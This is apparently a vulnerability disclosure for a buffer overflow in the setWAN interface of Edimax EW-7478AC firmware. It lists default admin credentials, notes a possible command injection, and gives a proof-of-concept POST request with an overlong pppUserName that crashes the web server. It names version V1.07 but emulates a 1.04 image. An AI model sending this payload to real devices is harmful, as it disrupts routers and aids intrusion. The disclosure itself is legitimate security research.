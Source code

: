 ## **Description**

A buffer overflow vulnerability was discovered in the Edimax EW-7478AC firmware version ​**V1.07**. The vulnerability arises from the improper input validation of the `pppUserName` parameter in the 'setWAN' interface of the file webs.

## ​**Affected Product**

- ​**Brand**: EDIMAX
- ​**Product**: EW-7478AC
- ​**Version**: V1.07

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d Edimax ../FIRMWARE/EW7478APC_1.04.bin
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `1234`

The result of the simulation is as follows: 
![sim_res](./img/sim_res.png)

## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'setWAN' is below:
![vulner_code.png](./img/vulner_code.png)

- ​**websGetVar** retrieves POST parameters.
- ​**strcpy()**, **sprintf()** is used without length checks, leading to a ​buffer overflow.
- **system()** is used without check, so there may be a command injection in this place


## **Proof of Concept (PoC)**

### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test.
Example package
```http
POST /goform/setWAN HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 332
Connection: close

wanMode=2&pppUserName=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&pppPassword=test123
```

After the request the `webs` process will crash.
![result](./img/result.png)